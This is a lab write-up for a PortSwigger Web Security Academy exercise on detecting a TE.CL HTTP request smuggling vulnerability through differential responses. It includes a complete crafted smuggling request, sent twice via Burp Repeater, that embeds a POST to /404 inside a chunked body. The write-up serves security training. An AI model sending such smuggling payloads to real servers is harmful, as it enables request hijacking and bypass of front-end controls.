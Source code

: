 #  HTTP - request smuggling, confirming a TE.CL vulnerability via differential responses

## 📌 Lab Details
- **Title**: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
- **Difficulty**: Practitioner
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/fe9ab531836f0124048451639920eb523e4374df7d3e1f492dc1985048adeae9?referrer=%2fweb-security%2frequest-smuggling%2ffinding%2flab-confirming-te-cl-via-differential-responses

## 🔍 Summary
This lab confirms a **TE.CL HTTP request smuggling vulnerability** — where the front-end server uses `Transfer-Encoding: chunked` to determine request boundaries, but the **back-end server** relies on the `Content-Length` header. By crafting a request with chunked encoding that contains a **smuggled request** inside the body, the two servers disagree on where the request ends. This causes the back-end to treat part of the body as the **next HTTP request**, which triggers a `404 Not Found` when the smuggled request points to `/404`.

## 🛠 Steps to Solve
1. Intercept the request and send it to **Burp Repeater**.
2. Now, issue the following request twice:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-length: 4
   Transfer-Encoding: chunked

   5e
   POST /404 HTTP/1.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 15

   x=1
   0

   ```sh
3. The second request should receive an **HTTP 404** response.

## 📖 Key Takeaways
- **TE.CL mismatch** → Front-end reads chunks; back-end trusts `Content-Length`.
- Smuggling works by embedding a **full HTTP request** inside the chunked body so that the back-end processes it as the **next** request.
- This is a **detection step** — proving that the vulnerability exists before exploiting it further.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/9c8175fc-e995-4f49-83b5-25970ae9912c" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/b370cea6-59d4-40cb-8d98-12c62a2a602c" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/3d1019d2-b5d4-4f1f-a085-c2714e626029" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/06ee66f3-cb7a-427d-8faa-71d539a35bf7" />
